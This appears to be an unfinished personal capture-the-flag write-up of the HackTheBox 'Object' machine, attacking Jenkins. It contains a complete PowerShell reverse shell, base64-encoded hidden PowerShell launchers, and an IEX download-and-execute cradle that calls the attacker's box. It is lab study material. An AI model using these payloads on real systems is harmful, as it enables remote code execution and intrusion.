

# Object Writeup

Name: Object
Date:  12/2/2023
Difficulty:  Hard
Goals:  
- Have fun and keep my head in AD hacking and Impacket etched slightly in my brain.
- Comment atleast once per section about Azure AD to revise
- Finish other Boxes and BRs again.
Learnt:
Beyond Root:
- Windows AD Patching
- Test my Windows Battleground/KOTH and invent another

As I have not looked into Azure AD in about month as I near doing the AZ-104 exam before getting back into OSCP after clearing up my Github, I still think that some of my efforts are never wasted having fun and relaxed hacking of a HTB box with Alh4zr3d. Although it seems to span out my additional work load, I am getting through some infrastructure issues that are just do or die in OSCP exam related scenarios that need to be worked through. With AZ-104 I am a less enthused to setup FTP and docker services to finish [[Kotarak-Helped-Through]] and [[Seventeen-Helped-Through]], which I will finish also today, but I a am side channel attacking them with focus being fun, AZ-104 and its relveance to AD. It is also the real-world AD I would face as a cloud admin or pentester or red/purple/blue teamer. Given that this is a 5 hour machine minus probably 50 minutes for the breaks Al will take and the introductionary setup I can get execise and get my other boxes service blockages sorted before finishing those. I am also getting to the point were I think with enough preparation I could atleast do KOTH against people panicing that maybe half as good as my given preparation and thought. I would like to have some more cool tricks for people that are way better than me to atleast stand some degree of a chance to not burn out on doing a couple a week after my OSCP. Stress conditioning seems like the way to go as I would like to work in high stress environments and be very very chill, but also be somewhat battle tested against talented people even if I lose.

## Recon

A brief look at Al and the length of this stream may indicate some serious malding. The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


With all the standard recon scannning done ahead of time I am more following along adding to my other beyond roots.


Add the hostname to /etc/hosts
```bash
echo "10.129.96.147 object.htb" | sudo tee -a /etc/hosts 
```


Create a account


[Jenkins](https://www.jenkins.io/)  – an open source automation server which enables developers around the world to reliably build, test, and deploy their software.  [Jenkins](https://en.wikipedia.org/wiki/Jenkins_(software)) is an open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery. It is a server-based system that runs in servlet containers such as Apache Tomcat.

`Daashboard -> Create a job `

Automated Build pipelines,  CICD
`/Script` endpoint is script console - execute a reverse shell

We required to Web PrivEsc to access this functionality


[Exploitdb](https://www.exploit-db.com/exploits/46572) is vulnerablity for this version of Jenkins; this exploit did not show up in `Searchsploit` - tried the metasploit version - failed

Ping ourselves for the PoC


It runs , but fails


Console output is good.

User - ` Oliver :`; then I added `cmd /c`  to the ping command and change to a batch command. It failed as I `-c` requires administrative privileges! WHY!?!


Fixing the -c


Less Cthulu-esque filter evasion
```powershell
$a = New-Object System.Net.Sockets.TCPClient('10.10.14.139',31337);$b = $a.GetStream();[byte[]]$c = 0..65535|%{0};while(($i = $b.Read($c, 0, $c.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($c,0, $i);$f = (iex $d 2>&1 | Out-String );$g = $f + 'PS ' + (pwd).Path + '> ';$e = ([text.encoding]::ASCII).GetBytes($g);$b.Write($e,0,$e.Length);$b.Flush()};$a.Close()
# client -> a
# stream -> b
# bytes -> c
# data -> d
# sendbyte -> e
# sendback -> f
# sendback2 -> f2 -> g
```

```bash
# Al's
iconv -f ASCII -t UTF-16LE rshell.txt | base64 | tr -d "\n"
# Mine
iconv -f ASCII -t UTF-16LE rshell.txt | tr -d "\n" | base64 -w0 
```

```powershell
cmd /c powershell -nop -exec  bypass -w hidden -e JABhACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJwAxADAALgAxADAALgAxADQALgAxADMAOQAnACwAMwAxADMAMwA3ACkAOwAkAGIAIAA9ACAAJABhAC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABiAC4AUgBlAGEAZAAoACQAYwAsACAAMAAsACAAJABjAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZAAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABjACwAMAAsACAAJABpACkAOwAkAGYAIAA9ACAAKABpAGUAeAAgACQAZAAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAGcAIAA9ACAAJABmACAAKwAgACcAUABTACAAJwAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACcAPgAgACcAOwAkAGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAGcAKQA7ACQAYgAuAFcAcgBpAHQAZQAoACQAZQAsADAALAAkAGUALgBMAGUAbgBnAHQAaAApADsAJABiAC4ARgBsAHUAcwBoACgAKQB9ADsAJABhAC4AQwBsAG8AcwBlACgAKQAAAA==
```
This failed for me:

Because of xml parsing. I did have a newline at the buttom of the script.

```powershell
cmd /c powershell -nop -exec  bypass -w hidden -e JABhACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJwAxADAALgAxADAALgAxADQALgAxADMAOQAnACwAMwAxADMANwApADsAJABiACAAPQAgACQAYQAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAYgAuAFIAZQBhAGQAKAAkAGMALAAgADAALAAgACQAYwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYwAsADAALAAgACQAaQApADsAJABmACAAPQAgACgAaQBlAHgAIAAkAGQAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABnACAAPQAgACQAZgAgACsAIAAnAFAAUwAgACcAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAnAD4AIAAnADsAJABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABnACkAOwAkAGIALgBXAHIAaQB0AGUAKAAkAGUALAAwACwAJABlAC4ATABlAG4AZwB0AGgAKQA7ACQAYgAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYQAuAEMAbABvAHMAZQAoACkAAA==

```

Al wants to read firewall rules - not done this before on Windows! I pasued to try acouple of things 


We could upload a shell and execute in memory trick, but also encodeit in base64 and decoded it
```powershell
IEX(new-object system.net.webclient).downloadString(http://attackbox/IPT.ps1)
```
Encode 
```bash
iconv -f ASCII -t UTF-16LE psFileInfilAndExec.txt | tr -d "\n" | base64 -w0
SQBFAFgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAcwB5AHMAdABlAG0ALgBuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQAzADkALwBJAFAAVAAuAHAAcwAxACcAKQAA
```
Jenkin Windows Batch script execution
```powershell
cmd /c powershell -nop -exec bypass -w hidden -e SQBFAFgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAcwB5AHMAdABlAG0ALgBuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQAzADkALwBJAFAAVAAuAHAAcwAxACcAKQAA
```

I tried one argument and it complaint, tried two it complained again, went back 


Then I could not find my http server, which is really weird considering that we have PoC from the ping. I tried wget, not on the box, and curl is disabled


1:35

## Exploit

## Foothold

## PrivEsc

## Beyond Root

I think the ultimate meta would be to KOTH logging and exfiltrating the logs monitoring the other attackers and defender action for the TTPs.

Cheking out I-Am-Jackoby - https://github.com/I-Am-Jakoby/PowerShell-for-Hackers mentioned during the stream.